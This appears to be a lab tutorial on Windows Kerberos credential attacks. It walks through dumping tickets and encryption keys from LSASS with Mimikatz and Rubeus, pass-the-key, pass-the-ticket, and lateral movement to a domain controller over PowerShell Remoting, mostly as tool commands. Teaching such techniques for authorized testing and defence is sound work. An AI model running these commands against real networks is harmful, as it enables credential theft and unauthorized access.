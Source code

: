 We need a valid Kerberos ticket to perform pass the ticket attack, it can be TGS or TGT.

## Harvesting Kerberos Tickets from Windows

On Windows, tickets are processed and stored by the LSASS process, as a non-administrator user you can only get your tickets, but as a local administrator you can collect anything.

We can harvest all tickets from a system using the `Mimikatz` module `sekurlsa::tickets /export`. The result is a list of files with the extension `.kirbi`, which contain the tickets.

### Mimikatz - Export Tickets
```cmd-session
c:\tools> mimikatz.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
mimikatz # exit

c:\tools> dir *.kirbi
```

Tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the AD, user tickets have username, followed by `@` that separates the service name and the domain, for example `[randomvalue]-username@service-domain.local.kirbi`.

**Note:** If you pick a ticket with the service krbtgt, it corresponds to the TGT of that account.

We can also use `Rubeus` to export tickets with the option `dump`, it can be use to dump all ticket (if running as local administrator), it will print the ticket encoded in base64 format, we can add `/nowrap` for easier copy-paste.

**Note:** At the time of writing, using Mimikatz version 2.2.0 20220919, if we run "sekurlsa::ekeys" it presents all hashes as des_cbc_md4 on some Windows 10 versions. Exported tickets (sekurlsa::tickets /export) do not work correctly due to the wrong encryption. It is possible to use these hashes to generate new tickets or use Rubeus to export tickets in base64 format.

### Rubeus - Export Tickets
```cmd-session
c:\tools> Rubeus.exe dump /nowrap
```

We can forge our own Kerberos ticket with the `OverPass the Hash or Pass the Key` technique.

## Pass the Key or OverPass the Hash

With PtH we reuse an NTLM hash without touching Kerberos, with pass the key approach we convert a hash/key of a domain joined machine into a TGT.

To forge tickets we need to have the user's hash, the `sekurlsa::ekeys` module from Mimikatz can be used to dump all users Kerberos encryption keys, of all types of keys that can be presented.

### Mimikatz - Extract Kerberos Keys
```cmd-session
c:\tools> mimikatz.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

With access to the `AES256_HMAC` and `RC4_HMAC` keys we can perform the attack using Mimikatz or Rubeus.

### Mimikatz - Pass the Key or OverPass the Hash
```cmd-session
c:\tools> mimikatz.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::pth /domain:<domain> /user:<username> /ntlm:<hash>
```

It will create a new `cmd.exe` window in the context of the user.

To use Rubeus to forge the ticket we can use the `asktgt` module with `/rc4`, `/aes128`, `/aes256`, or `/des` hash.

### Rubeus - Pass the Key or OverPass the Hash
```cmd-session
c:\tools> Rubeus.exe  asktgt /domain:<domain> /user:<username> /aes256:<hash> /nowrap
```

**Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

**Note:** Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use a rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade."

## Pass the Ticket (PtT)

We can use `/ptt` with Rubeus to submit the ticket for the current logon session instead of getting the ticket in `base64` format.

### Rubeus Pass the Ticket
```cmd-session
c:\tools> Rubeus.exe asktgt /domain:<domain> /user:<username> /rc4:<hash> /ptt
```

We can also import the ticket into the current session using the `.kirbi` file from Mimikatz.

### Rubeus - Pass the Ticket
```cmd-session
c:\tools> Rubeus.exe ptt /ticket:<.kirbi file>
```

We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to base64.

### Convert .kirbi to Base64 Fromat
```powershell-session
PS c:\tools> [Convert]::ToBase64String([IO.File]::ReadAllBytes("<.kirbi ticket>"))
```

### Pass the Ticket - Base64 Format
```cmd-session
c:\tools> Rubeus.exe ptt /ticket:<base64 string>
```

We can also use the `kerberos::ptt` module from Mimikatz to perform the Pass the Ticket attack, using the `.kirbi` file.

### Mimikatz - Pass the Ticket
```cmd-session
C:\tools> mimikatz.exe

mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\<.kirbi file>"
mimikatz # exit

c:\tools> dir \\DC01.inlanefreight.htb\c$
```

**Note:** Instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command prompt, we can use the Mimikatz module `misc` to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

## Pass the Ticket with PowerShell Remoting (Windows)

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to run scripts or commands on a remote computer, using it creates both HTTP and HTTPS listeners, which run on a standard port TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.

### Mimikatz - PowerShell Remoting with Pass the Ticket

We can use Mimikatz to import a ticket then open a PowerShell console and connect to the target machine.

#### Mimikatz - Pass the Ticket for Lateral Movement
```cmd-session
C:\tools> mimikatz.exe

mimikatz # privilege::debug
mimikatz # kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\<.kirbi ticket>"
mimikatz # exit

c:\tools>powershell

PS C:\tools> Enter-PSSession -ComputerName <computer name>
```

### Rubeus - PowerShell Remoting with Pass the Ticket

Rubeus has the option `createnetonly` which creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)) which is hidden by default, but we can use `/show` to display the process, and the result is the equivalent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

#### Create a Sacrificial Process with Rubeus
```cmd-session
C:\tools> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with the option `/ptt` to import the ticket into our current session and connect to the DC using PowerShell Remoting.

#### Rubeus - Pass the Ticket for Lateral Movement
```cmd-session
C:\tools> Rubeus.exe asktgt /user:<username> /domain:<domain> /aes256:<hash> /ptt
c:\tools>powershell
PS C:\tools> Enter-PSSession -ComputerName <computer name>
```